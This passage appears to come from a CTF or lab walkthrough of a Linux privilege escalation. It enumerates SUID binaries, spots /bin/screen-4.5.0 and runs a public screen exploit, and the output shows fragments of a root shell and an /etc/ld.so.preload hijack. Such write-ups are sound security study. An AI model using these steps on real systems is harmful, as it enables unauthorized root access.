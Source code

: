 ```
joker@ubuntu:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```
^finding set uid bit

Does something seem off to you? I googled it, and found the [exploit](https://www.exploit-db.com/exploits/41154).

Copy-pasting the script and executing - 
```
joker@ubuntu:~$ vim wow.sh
joker@ubuntu:~$ bash wow.sh 
wow.sh: line 1: creenroot.sh: command not found
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

```